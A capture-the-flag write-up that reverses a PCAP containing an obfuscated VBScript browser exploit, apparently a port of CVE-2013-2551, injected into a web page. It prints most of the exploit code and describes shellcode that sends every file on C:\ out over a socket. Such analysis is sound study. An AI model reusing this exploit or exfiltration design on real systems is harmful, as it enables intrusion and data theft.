

Challenge information
=====================

* Challenge type: Reverse
* Rating: Hard            50 hours
* Challenge inputs:
    * PCAP file


PCAP analysis
=============
When discovering PCAPs I like to look to follow the TCP streams, which can give us an idea of what's happening. Here for instance there are 3 streams, two of which are cleartext on port 80 and one that seems encrypted on port 443 ... but with no TLS handshake? That's uncommon.


Let's look closer at TCP stream 0:


Looks like an obfuscated script was injected in the page! Someone fell victim to a MitM attack and should have used HTTPS...


Deobfuscating the script
========================
It looked quite ugly but being VBS is actually rather easy to deobfuscate.

First, there are constants:
```vb
Dim IIIIIIIIIIIIIIIIIIIIIIIII : IIIIIIIIIIIIIIIIIIIIIIIII = Array(&HF6,&H87,&HFB,&H6,&H3F,&H7E,&HA6,&HC2,&H4A,&H9B,&H3C,&HF7,&HC7,&HE7,&HDD,&H28,&HAC,&H8A,&H95,&H45,&H99,&H1,[ .. snip 25kB .. ]):
IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII = navigator.userAgent
```

Then there's a class defined:
```vb
Class IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII
    Public IIIIIIIIIIIIIIII,IIIIIIIIIIIIIII
    Public IIIIIIIIIIIIIIIIIIIIII

    Private Sub Class_Initialize
      ReDim IIIIIIIIIIIIIIIIIIIIII(256)
    End Sub

    Public Sub IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII(ByVal IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,ByVal IIIIIIIIIIIIIIIIIIIIIIIIIIIIIII)
      Dim IIIIIIIIIIIIIIIIIIIIIIIIIIIIII

      IIIIIIIIIIIIIIII = 0
      IIIIIIIIIIIIIII = 0

      For IIIIIIIIIIIIIIIIIIIIIIIIIIIIII = 0 To UBound(IIIIIIIIIIIIIIIIIIIIII) - 1
        IIIIIIIIIIIIIIIIIIIIII(IIIIIIIIIIIIIIIIIIIIIIIIIIIIII) = IIIIIIIIIIIIIIIIIIIIIIIIIIIIII
      Next

      Dim IIIIIIIIIIIIIIIIIII,IIIIIIIIIIIIIIIIIIIII,IIIIIIIIIIIIIIIIIIII
      IIIIIIIIIIIIIIIIIIIII = 0
      IIIIIIIIIIIIIIIIIIII = 0

      For IIIIIIIIIIIIIIIIIIIIIIIIIIIIII = 0 To UBound(IIIIIIIIIIIIIIIIIIIIII) - 1
        IIIIIIIIIIIIIIIIIII = IIIIIIIIIIIIIIIIIIIIII(IIIIIIIIIIIIIIIIIIIIIIIIIIIIII)

        Dim IIIIIIIIIIIIIIIIIIIIIIII

        If (VarType(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII) = (vbArray + vbVariant)) Then
          IIIIIIIIIIIIIIIIIIIIIIII = IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII(IIIIIIIIIIIIIIIIIIIII)
        Else
          IIIIIIIIIIIIIIIIIIIIIIII = CInt(Asc(Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,(IIIIIIIIIIIIIIIIIIIII + 1),1)))
        End If

        IIIIIIIIIIIIIIIIIIII = CInt((IIIIIIIIIIIIIIIIIIIIIIII+CInt((IIIIIIIIIIIIIIIIIII+IIIIIIIIIIIIIIIIIIII) And 255)) And 255)
        IIIIIIIIIIIIIIIIIIIII = IIIIIIIIIIIIIIIIIIIII + 1

        If (IIIIIIIIIIIIIIIIIIIII = IIIIIIIIIIIIIIIIIIIIIIIIIIIIIII) Then
          IIIIIIIIIIIIIIIIIIIII = 0
        End If

        IIIIIIIIIIIIIIIIIIIIII(IIIIIIIIIIIIIIIIIIIIIIIIIIIIII) = IIIIIIIIIIIIIIIIIIIIII(IIIIIIIIIIIIIIIIIIII)
        IIIIIIIIIIIIIIIIIIIIII(IIIIIIIIIIIIIIIIIIII) = IIIIIIIIIIIIIIIIIII
      Next
      Call IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,IIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII)
    End Sub

    Public Sub IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII(ByVal IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,ByVal IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,ByRef IIIIIIIIIIIIIIIIIIIIIIIIII)
      Dim IIIIIIIIIIIIIIIIIIIIIIIIIIIIII,IIIIIIIIIIIIIIIIII,IIIIIIIIIIIIIIIII,IIIIIIIIIIIIIIIIIIIIIIII
      ReDim IIIIIIIIIIIIIIIIIIIIIIIIII(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII)

      For IIIIIIIIIIIIIIIIIIIIIIIIIIIIII = 0 To IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII - 1
        IIIIIIIIIIIIIIII = CInt((IIIIIIIIIIIIIIII+1) And 255)
        IIIIIIIIIIIIIIIIII = IIIIIIIIIIIIIIIIIIIIII(IIIIIIIIIIIIIIII)

        IIIIIIIIIIIIIII = CInt((IIIIIIIIIIIIIIIIII+IIIIIIIIIIIIIII) And 255)
        IIIIIIIIIIIIIIIII = IIIIIIIIIIIIIIIIIIIIII(IIIIIIIIIIIIIII)

        IIIIIIIIIIIIIIIIIIIIII(IIIIIIIIIIIIIIII) = IIIIIIIIIIIIIIIII
        IIIIIIIIIIIIIIIIIIIIII(IIIIIIIIIIIIIII) = IIIIIIIIIIIIIIIIII

        If (VarType(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII) = vbString) Then
          IIIIIIIIIIIIIIIIIIIIIIII = CInt(Asc(Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,(IIIIIIIIIIIIIIIIIIIIIIIIIIIIII + 1),1)))
        Else
          IIIIIIIIIIIIIIIIIIIIIIII = IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII(IIIIIIIIIIIIIIIIIIIIIIIIIIIIII)
        End If

        IIIIIIIIIIIIIIIIIIIIIIIIII(IIIIIIIIIIIIIIIIIIIIIIIIIIIIII) = IIIIIIIIIIIIIIIIIIIIII(CInt((IIIIIIIIIIIIIIIIII+IIIIIIIIIIIIIIIII) And 255)) Xor IIIIIIIIIIIIIIIIIIIIIIII
      Next
    End Sub
End Class

Set IIIIIIIIIIIIIIIIIIIIIII = New IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII

Call IIIIIIIIIIIIIIIIIIIIIII.IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,Len(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII))

Call IIIIIIIIIIIIIIIIIIIIIII.IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII(IIIIIIIIIIIIIIIIIIIIIIIII,UBound(IIIIIIIIIIIIIIIIIIIIIIIII)+1,IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII)

  For IIIIIIIIIIIIIIIIIIIIIIIIIIIIII = 0 To 51
    IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII(IIIIIIIIIIIIIIIIIIIIIIIIIIIIII) = Chr(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII(IIIIIIIIIIIIIIIIIIIIIIIIIIIIII))
  Next
  For IIIIIIIIIIIIIIIIIIIIIIIIIIIIII = 0 To (UBound(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII)-53)/2
    IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII(52+IIIIIIIIIIIIIIIIIIIIIIIIIIIIII) = ChrW((IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII(52+IIIIIIIIIIIIIIIIIIIIIIIIIIIIII*2) + (IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII(52+IIIIIIIIIIIIIIIIIIIIIIIIIIIIII*2+1) * &h100)))
  Next
IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII = join(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,"")
```


These two first functions are used to decrypt the big array at the beginning. I failed to identify the algorithm, but it seems that the first fuction is a key scheduling algorithm and the second one is the actual decryption function. One can notice that the decryption key is the user agent of the navigator used by the victim, which we can find in the PCAP: "Mozilla/4.0 (compatible; MSIE 5.0; Windows 98; DigExt)". I merely replaced that in a shortened script of my own and dumped the decrypted array to a file.

Once decrypted, the big blob at the beginning contains a few readable strings at the beginning, followed by a huge payload.
```
"v:shape_shape_vgRuntimeStyledashstylearrayitemlength｠⑔慄쀱썈襕工ߩ"...
```

And finally, a function ```a()``` called from the javascript:
```vb
Function a()
    Dim IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,IIIIIIIIIIIIIIIIIIIIIIIIIII,IIIIIIIIIIII,IIIIIIIIIIIII,IIIII,IIII,IIIIIIIII,IIIIIII,IIIIIIIIIIIIIIIIIIIIIIIIIIII,IIIIIIII,IIIIII,IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,II,IIIIIIIIIIIIII
    ReDim IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII(42)
    ReDim IIIIIIIIIII(32)
    ReDim III(UBound(IIIIIIIIIII))
    ReDim IIIIIIIIII(UBound(IIIIIIIIIII))
    ReDim IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII(50)

    For IIIIIIIIIIIIIIIIIIIIIIIIIIIIII = 0 To 42
        IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII(IIIIIIIIIIIIIIIIIIIIIIIIIIIIII) = IIIIIIIIIIIIIIIIIIIIIIIIIIIIII + 1
    Next
    IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII = join(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII)
    IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII = Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,1,8)

    IIIIIIIII = Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,53,5)
    IIIIIII = Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,58)

    set IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII = J(v2,Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,734678-734649,734678-734669))
    set IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII = J(v1,Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,894112-894083,894112-894103))

    IIIIIIIIIIIIIIIIIIIIIIIIIII = 0
    IIIIIIIIIIIII = 0

    For IIIIIIIIIIIIIIIIIIIIIIIIIIIIII = 0 To UBound(IIIIIIIIIII)
        set IIIIIIIIIII(IIIIIIIIIIIIIIIIIIIIIIIIIIIIII) = document.createElement(Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,459759-459758,459759-459752))
        d.appendChild(IIIIIIIIIII(IIIIIIIIIIIIIIIIIIIIIIIIIIIIII))
    Next
    For IIIIIIIIIIIIIIIIIIIIIIIIIIIIII = 0 To UBound(IIIIIIIIIII)
        If IIIIIIIIIIIIIIIIIIIIIIIIIIIIII = (UBound(IIIIIIIIIII)-1) Then
            JJ v2,Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,604557-604528,604557-604548),IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII
        End If
        set IIIIIIIIII(IIIIIIIIIIIIIIIIIIIIIIIIIIIIII) = J(IIIIIIIIIII(IIIIIIIIIIIIIIIIIIIIIIIIIIIIII),Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,496415-496407,496415-496409))
    Next
    For IIIIIIIIIIIIIIIIIIIIIIIIIIIIII = 0 To UBound(IIIIIIIIIII)
        set III(IIIIIIIIIIIIIIIIIIIIIIIIIIIIII) = J(IIIIIIIIIII(IIIIIIIIIIIIIIIIIIIIIIIIIIIIII),Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,429731-429717,429731-429716))
    Next

    For IIIIIIIIIIIIIIIIIIIIIIIIIIIIII = 0 To UBound(III)
        IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII = III(IIIIIIIIIIIIIIIIIIIIIIIIIIIIII).rotation
        If IIIIIIIIIIIIIIIIIIIIIIIIIIIIII = (UBound(III)-10) Then
            JJ v1,Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,260288-260259,260288-260279),IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII
        End If
    Next
    IIIII = J(J(J(v1,Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,511606-511577,511606-511597)),Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,339787-339749,339787-339782)),Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,940464-940417,940464-940458))
    JJ J(J(v1,Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,735995-735966,735995-735986)),Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,467668-467630,467668-467663)),Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,773-726,773-767),-1

    For IIIIIIIIIIIIIIIIIIIIIIIIIIIIII = 0 To UBound(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII)
        IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII(IIIIIIIIIIIIIIIIIIIIIIIIIIIIII) = JJJ(J(J(v1,Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,309728-309699,309728-309719)),Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,303127-303089,303127-303122)),Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,534904-534861,534904-534900),(IIIII + IIIIIIIIIIIIIIIIIIIIIIIIIIIIII))
    Next
    For IIIIIIIIIIIIIIIIIIIIIIIIIIIIII = 0 To UBound(III)
        III(IIIIIIIIIIIIIIIIIIIIIIIIIIIIII).marginLeft = navigator.userAgent
    Next

    IIIIIIIIIIIIIIIIIIIIIIIIIII = 0
    For IIIIIIIIIIIIIIIIIIIIIIIIIIIIII = 0 To UBound(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII)-1
        IIIIIIIIIIIIIIIIIIIIIIIIIIII = JJJ(J(J(v1,Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,602390-602361,602390-602381)),Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,813368-813330,813368-813363)),Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,21539-21496,21539-21535),(IIIII + IIIIIIIIIIIIIIIIIIIIIIIIIIIIII))
        If (IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII(IIIIIIIIIIIIIIIIIIIIIIIIIIIIII) = 0) And (IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII(IIIIIIIIIIIIIIIIIIIIIIIIIIIIII+1) = 0) And (IIIIIIIIIIIIIIIIIIIIIIIIIIII <> 0) Then
            IIIIIIIIIIIIIIIIIIIIIIIIIII = IIIII + IIIIIIIIIIIIIIIIIIIIIIIIIIIIII
            Exit For
        End If
    Next

    If IIIIIIIIIIIIIIIIIIIIIIIIIII = 0 Then
        JJ J(J(v1,Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,573547-573518,573547-573538)),Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,880752-880714,880752-880747)),Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,388140-388093,388140-388134),IIIII
        Exit Function
    End If

    For IIIIIIIIIIIIIIIIIIIIIIIIIIIIII = 0 To UBound(III)
        III(IIIIIIIIIIIIIIIIIIIIIIIIIIIIII).marginTop = navigator.userAgent
        If JJJ(J(J(v1,Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,819160-819131,819160-819151)),Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,246605-246567,246605-246600)),Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,765510-765467,765510-765506),(IIIIIIIIIIIIIIIIIIIIIIIIIII + 1)) <> 0 Then
            set IIIIIIIIIIIII = III(IIIIIIIIIIIIIIIIIIIIIIIIIIIIII)
            Exit For
        End If
    Next
    If Not IsObject(IIIIIIIIIIIII) Then
        Exit Function
    End If
    IIIIIIIIIIIII.marginLeft = IIIIIIIII
    IIIIIIII = JJJ(J(J(v1,Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,516824-516795,516824-516815)),Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,250316-250278,250316-250311)),Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,8886-8843,8886-8882),IIIIIIIIIIIIIIIIIIIIIIIIIII)
    IIIIIIIIIIIII.marginTop = replace(space(30),ChrW(32),ChrW((IIIIIIII And 65535)) & ChrW((IIIIIIII And &hffff0000)/&h10000))
    IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII = JJJ(J(J(v1,Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,318938-318909,318938-318929)),Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,360605-360567,360605-360600)),Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,211688-211645,211688-211684),IIIIIIIIIIIIIIIIIIIIIIIIIII+1)

    JJJJ J(J(v1,Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,495098-495069,495098-495089)),Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,876621-876583,876621-876616)), Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,881101-881058,881101-881097),(IIIIIIIIIIIIIIIIIIIIIIIIIII + 1),0
    JJ J(J(v1,Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,934155-934126,934155-934146)),Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,519413-519375,519413-519408)),Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,769059-769012,769059-769053),IIIII

    IIII = J(J(J(v2,Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,866196-866167,866196-866187)),Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,334056-334018,334056-334051)),Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,884298-884251,884298-884292))
    JJ J(J(v2,Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,709994-709965,709994-709985)),Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,217569-217531,217569-217564)),Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,469809-469762,469809-469803),-1

    For IIIIIIIIIIIIIIIIIIIIIIIIIIIIII = IIII To (IIII+60)
        II = JJJ(J(J(v2,Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,266236-266207,266236-266227)),Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,262373-262335,262373-262368)),Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,671152-671109,671152-671148),IIIIIIIIIIIIIIIIIIIIIIIIIIIIII)
        IIIIIIIIIIIIII = JJJ(J(J(v2,Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,116380-116351,116380-116371)),Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,39508-39470,39508-39503)),Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,603642-603599,603642-603638),IIIIIIIIIIIIIIIIIIIIIIIIIIIIII+1)
        If (II <> 0) And ((IIIIIIIIIIIIII = 3)) Then
            For IIIIIIIIIIIIIIIIIIIIIIIIIIIII = UBound(IIIIIIIIIII) To 0 Step -1
                set IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII = J(IIIIIIIIIII(IIIIIIIIIIIIIIIIIIIIIIIIIIIII),Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,277018-277010,277018-277012))
                If (JJJ(J(J(v2,Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,101276-101247,101276-101267)),Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,55839-55801,55839-55834)),Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,696848-696805,696848-696844),IIIIIIIIIIIIIIIIIIIIIIIIIIIIII+1) = (IIIIIIIIIIIIII+2)) Then
                    JJJJ J(J(v2,Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,24410-24381,24410-24401)),Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,411822-411784,411822-411817)),Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,440350-440307,440350-440346),IIIIIIIIIIIIIIIIIIIIIIIIIIIIII,IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII
                    On Error Resume Next
                    IIIIIIIIIII(IIIIIIIIIIIIIIIIIIIIIIIIIIIII).src = IIIIIII
                    On Error Goto 0
                    JJJJ J(J(v2,Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,952854-952825,952854-952845)),Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,971874-971836,971874-971869)),Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,183087-183044,183087-183083),IIIIIIIIIIIIIIIIIIIIIIIIIIIIII,II
                    JJ J(J(v2,Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,453208-453179,453208-453199)),Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,585848-585810,585848-585843)),Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,361690-361643,361690-361684),IIII
                    Exit Function
                End If
                IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII = 0
            Next
        End If
    Next
    JJ J(J(v2,Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,593743-593714,593743-593734)),Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,803372-803334,803372-803367)),Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,478029-477982,478029-478023),IIII

    Exit Function
end Function
```

I spent way too much time understanding the vulnerability abused in function ```a()```. The decrypted strings helped finding the source of the exploit: it seems to be an IE5 port of CVE-2013-2551 which was discovered by [Vupen](https://web.archive.org/web/20130617105700/http://www.vupen.com/blog/20130522.Advanced_Exploitation_of_IE10_Windows8_Pwn2Own_2013.php). It's a heap exploit so I was afraid that the payload would be different than a normal shellcode because of that. This was time spent uselessly as I discovered after a while that the big payload is just a regular shellcode... Could've shaved a loooot of time had I directly jumped to the shellcode.


Preparing the setup
===================
Warning: preparing a Windows 98 setup was a pain, and I almost gave up here. It took me more that a day and about a dozen Windows 98 reinstalls to have a working setup that booted, had a [decent resolution](https://drive.google.com/file/d/0BycgkMZbeQOzWXE5NUhnWGRycVE/view), managed to connect to my network and had a [working debugger](http://www.ollydbg.de/) that did not cause bluescreens.


Long time no see, huh?


The shellcode
=============
At about 25kB that's a big one. Reversing it took a lot of switching between IDA for static analysis and OllyDBG for dynamic analysis. I wish I could tell you exactly how it works, but I'm not sure. I also wish I could convey how hard it was for me to reverse it, but I can't do that either. So I'm taking a major shortcut in this writeup, and I'm just going to list what it does. Here's the [full shellcode](https://gist.github.com/gquere/f6e2f948f45d45ab3c07d43c3c66d50d) if you want to play along.

* Save functions needed later by doing some import hashing
* VirtualAlloc() and SEH shenanigans
* a huge crypto part (uses mov, xor, shr instructions) that uses 4 Lookup Tables (LUT)
* VirtualFree()
* create a socket, connect to it
* loop over all files in C:\
    * open the file, read the file into a buffer
    * do some crypto on the buffer using a 5th LUT
    * send the encrypted buffer over the socket
* close the socket


Import hashing
--------------
Although I was not familiar with this techique, it appears to be [common malware behaviour](https://www.fireeye.com/blog/threat-research/2012/11/precalculated-string-hashes-reverse-engineering-shellcode.html): the shellcode does not embed textual strings for the functions it will need to call (think open, read, close) but rather has a custom hash of all these functions, and it parses the loaded DLL address space, hashing function names until it finds the right one and saves its address for later usage:


This pattern is very noticeable in a static analysis, because it needs to be repeated for each API function the shellcode will need.

It's possible to extract all function names with a dynamic analysis, but it's very time consuming. Instead, I copied the hashing algorithm into a hash bruteforcer in python and fed it [all DLL names and all DLL exported functions](https://www.win7dll.info/ws2_32_dll.html) I could find:


```python
#!/usr/bin/env python3
import sys

with open('dll_names.txt', 'r') as f:
    dll_names = f.readlines()

func_names = []
with open('rsc/KERNEL32.DLL', 'r') as f:
    func_names += f.readlines()
with open('rsc/SHELL32.DLL', 'r') as f:
    func_names += f.readlines()
with open('rsc/WS2_32.DLL', 'r') as f:
    func_names += f.readlines()
with open('rsc/SHFOLDER.DLL', 'r') as f:
    func_names += f.readlines()

def do_hash(name):
    ecx = 0x53544943
    for i in range(len(name)):
        ebx = ord(name[i])
        edi = ecx
        edi = (edi << 5) & 0xffffffff
        ecx = (ecx + edi) & 0xffffffff
        ecx = (ecx + ebx) & 0xffffffff
    return ecx

for dll_name in dll_names:
    hashed_name = do_hash(dll_name.strip())
    if '{:08X}'.format(hashed_name) == sys.argv[1].upper():
        print(dll_name.strip())

for func_name in func_names:
    hashed_name = do_hash(func_name.strip())
    if '{:08X}'.format(hashed_name) == sys.argv[1].upper():
        print(func_name.strip())
```

Having recovered all the DLL names and function names from the hashes, it was easier to get a sense of what the shellcode was doing and allowed me to infer the behaviour I previously presented.
